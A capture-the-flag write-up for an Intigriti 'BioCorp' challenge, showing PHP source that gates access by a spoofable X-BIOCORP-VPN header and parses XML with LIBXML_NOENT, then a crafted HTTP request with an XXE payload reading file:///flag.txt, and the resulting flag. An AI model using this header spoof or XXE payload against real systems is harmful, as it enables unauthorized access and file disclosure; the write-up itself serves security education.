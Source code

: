 While analyzing the files I find **panel.php**:

```php
if ($ip_address !== '80.187.61.102') {

    echo "<h1>Access Denied</h1>";
    echo "<p>You do not have permission to access this page.</p>";
    exit;

}
```

So, to access `panel.php` I need to spoof the IP `80.187.61.102` by including the header:

```
X-BIOCORP-VPN: 80.187.61.102
```

Analyzing the code further, I realize that the panel is also vulnerable to an **XXE attack**:

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && strpos($_SERVER['CONTENT_TYPE'], 'application/xml') !== false) {

    $xml_data = file_get_contents('php://input');
    $doc = new DOMDocument();

    if (!$doc->loadXML($xml_data, LIBXML_NOENT)) {
        echo "<h1>Invalid XML</h1>";
        exit;
    }

} else {
    $xml_data = file_get_contents('data/reactor_data.xml');
    $doc = new DOMDocument();
    $doc->loadXML($xml_data, LIBXML_NOENT);
}

$temperature = $doc->getElementsByTagName('temperature')->item(0)->nodeValue ?? 'Unknown';
$pressure = $doc->getElementsByTagName('pressure')->item(0)->nodeValue ?? 'Unknown';
$control_rods = $doc->getElementsByTagName('control_rods')->item(0)->nodeValue ?? 'Unknown';
```

With **BurpSuite** I craft a request to extract `flag.txt`:

```
POST /panel.php HTTP/2
Host: biocorp.ctf.intigriti.io
X-Biocorp-Vpn: 80.187.61.102
Content-Type: application/xml
Content-Length: 123

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<temperature>&xxe;</temperature>
```

And here is the flag:

```
INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}
```